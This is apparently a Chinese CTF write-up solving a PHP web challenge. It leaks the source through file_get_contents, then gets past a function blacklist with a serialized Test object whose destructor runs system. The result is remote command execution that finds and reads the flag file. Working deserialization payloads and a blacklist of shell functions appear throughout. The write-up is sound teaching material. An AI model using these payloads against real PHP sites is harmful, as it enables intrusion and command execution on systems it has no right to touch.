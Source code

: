 ![[Pasted image 20221113204640.png|500]]

---
每隔五秒`POST`一次，传递`func`和`p`参数

![[Pasted image 20221113204657.png]]

![[Pasted image 20221113204833.png]]
```php
func=abc&p=123
```
> call_user_func() expects parameter 1 to be a valid callback, function 'abc' not found or invalid function name

尝试`system`执行
```php
func=system&p=ls
```
> Hacker...

被过滤了QAQ

再尝试`file_get_contents`获取`flag`
```php
func=file_get_contents&p=/flag
```
> file_get_contents(/flag): failed to open stream: No such file or directory

并没有`/flag`这个文件，但是`file_get_contents`没有被过滤，尝试利用这一点获取`index.php`的内容
```php
func=file_get_contents&p=index.php
```

```php
<!DOCTYPE html>
<html>
	<head>
	    <title>phpweb</title>
	    <style type="text/css">
	        body {
	            background: url("bg.jpg") no-repeat;
	            background-size: 100%;
	        }
	        p {
	            color: white;
	        }
	    </style>
	</head>

	<body>
	<script language=javascript>
	    setTimeout("document.form1.submit()",5000)
	</script>
	<p>
	    <?php
	    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
	    function gettime($func, $p) {
	        $result = call_user_func($func, $p);
	        $a= gettype($result);
	        if ($a == "string") {
	            return $result;
	        } else {return "";}
	    }
	    class Test {
	        var $p = "Y-m-d h:i:s a";
	        var $func = "date";
	        function __destruct() {
	            if ($this->func != "") {
	                echo gettime($this->func, $this->p);
	            }
	        }
	    }
	    $func = $_REQUEST["func"];
	    $p = $_REQUEST["p"];
	
	    if ($func != null) {
	        $func = strtolower($func);
	        if (!in_array($func,$disable_fun)) {
	            echo gettime($func, $p);
	        }else {
	            die("Hacker...");
	        }
	    }
	    ?>
	</p>
	<form  id=form1 name=form1 action="index.php" method=post>
	    <input type=hidden id=func name=func value='date'>
	    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
	</body>
</html>
```
好家伙，ban了这么多

注意到有个从没用到的`Test`类，里边还有个`__destruct`方法，而且`unserialize`也没被ban，看来反序列化八九不离十了

大致思路是构造payload，利用反序列化生成`Test`类的一个对象，再借由其`__destruct`方法绕过过滤

```php
<?php
class Test {
    var $p;
    var $func;
}

$payload = new Test;
$payload->func = "system";
$payload->p = 'find / -name *flag*';
echo serialize($payload);
?>
```
> O:4:"Test":2:{s:1:"p";s:19:"find / -name \*flag\*";s:4:"func";s:6:"system";}
```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}
```

```
...
/tmp/flagoefiu4r93
...
```
---
读取`flag`
```php
$payload->p = 'cat /tmp/flagoefiu4r93';
```
> O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}

```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

```
flag{3b352024-0ec2-4ac3-a110-9cbd86917b0c}
```

#Web #PHP #反序列化 #RCE